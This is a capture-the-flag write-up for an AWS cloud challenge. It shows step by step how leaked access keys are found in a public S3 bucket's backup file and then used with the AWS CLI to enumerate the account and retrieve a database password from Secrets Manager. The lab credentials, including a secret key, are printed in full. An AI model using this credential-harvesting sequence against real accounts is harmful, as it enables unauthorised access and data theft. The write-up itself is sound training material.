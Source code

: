 ## Challenge Name: Elf Leaks
### Topic: Cloud
This challenge involved investigating AWS infrastructure used by an organization.  
Went to the bucket `https://s3.amazonaws.com/images.bestfestivalcompany.com` to find a list of what files are accessible.  

### Questions:
1. What is the name of the S3 Bucket used to host the HR Website announcement?  
answer: `images.bestfestivalcompany.com`   
2. What is the message left in the flag.txt object from the bucket?  
answer: `It's easy to get your elves data when you leave it so easy to find!`   
3. What other file in that bucket looks interesting to you?  
answer:`wp-backup.zip`   
4. What is the AWS Access Key ID in that file?  
answer:`AKIAQI52OJVCPZXFYAOI`   
file: `wp-config.php`   
command: `grep -nr "AKIA" .`   
5. What is the AWS Account ID that access-key works for?  
answer: `019181489476`    
config:  
```
/usr/local/bin/aws configure
AWS Access Key ID [****************YAOI]: AKIAQI52OJVCPZXFYAOI
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```   
command: `/usr/local/bin/aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI`   
6. What is the User for that access-key?  
command: `/usr/local/bin/aws sts get-caller-identity`   
answer: `ElfMcHR@bfc.com`   
7. There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance?  
answer: `HR-Portal`  
command: `/usr/local/bin/aws ec2 describe-instances --output text`   
8. What is teh database password stored in Secrets Manager?  
answer: `Winter2021!`  
command: `/usr/local/bin/aws secretsmanager get-secret-value --secret-id HR-Password --region eu-north-1`   